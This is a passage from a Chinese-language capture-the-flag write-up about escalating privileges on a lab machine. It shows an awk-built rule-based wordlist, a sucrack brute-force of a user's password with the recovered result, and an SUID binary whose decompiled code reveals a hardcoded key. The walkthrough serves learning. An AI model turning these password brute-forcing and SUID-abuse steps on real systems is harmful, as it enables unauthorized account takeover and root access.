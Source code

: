 之后使用我们得到的密码表来进行暴力破解但是你会发现无法使用其破解到, 这是因为对应的密码存在某些规则, 

![image-20240709201835619](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201837.png)

根据我们的 FTP 密码去扫描我们的账号发现存在三条结合判断对应的密码规则应该是 `123adana+密码` 根据其规则制作新的单词列表, 之后进行爆破就可以得到用户的密码了

```bash
(remote) www-data@ubuntu:/tmp/sucrack-master/src$ awk '{print "123adana" $0}' ../../wordlist.txt > ../../new_wordlist.txt
(remote) www-data@ubuntu:/tmp/sucrack-master/src$ ./sucrack  -u hakanbey -w 100 ../../new_wordlist.txt 
27998/803891
password is: 123adanasubaru
```

### hakanbey —> root

使用得到的密码切换到 hakanbey  用户, 之后查找 SUID 程序发现一个特殊的程序

```bash
hakanbey@ubuntu:~$ ls -al /usr/bin/binary
-r-srwx--- 1 root hakanbey 12984 Jan 14  2021 /usr/bin/binary
```

将其对应的下载到本地进行查看并使用工具进行逆向分析, 从代码中我们可以看出我们首先要确保对应的输入正确

```bash
undefined8 main(void){
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_1e8 = 0x726177;
  local_1e0 = 0;
  local_1d8 = 0x656e6f7a;
  local_1d0 = 0;
  local_1c8 = 0x6e69;
  local_1c0 = 0;
  local_1b8 = 0x616461;
  local_1b0 = 0;
  local_1a8 = 0x616e;
  local_1a0 = 0;
  strcat((char *)&local_1e8,(char *)&local_1d8);
  strcat((char *)&local_1e8,(char *)&local_1c8);
  strcat((char *)&local_1e8,(char *)&local_1b8);
  strcat((char *)&local_1e8,(char *)&local_1a8);
  printf("I think you should enter the correct string here ==>");
  __isoc99_scanf(&DAT_00100edd,local_138);
  __c = strcmp(local_138,(char *)&local_1e8);
  if (__c == 0) {....}
```

分析我们的代码, 从中我们知道了对应的 key 为 warzoneinadana, 将其提交执行, 我们看到一些输出

```bash
hakanbey@ubuntu:~$ /usr/bin/binary 
I think you should enter the correct string here ==>warzoneinadana
Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/Desktop/root.jpg (CyberChef)

Copy /root/root.jpg ==> /home/hakanbey/root.jpg
```
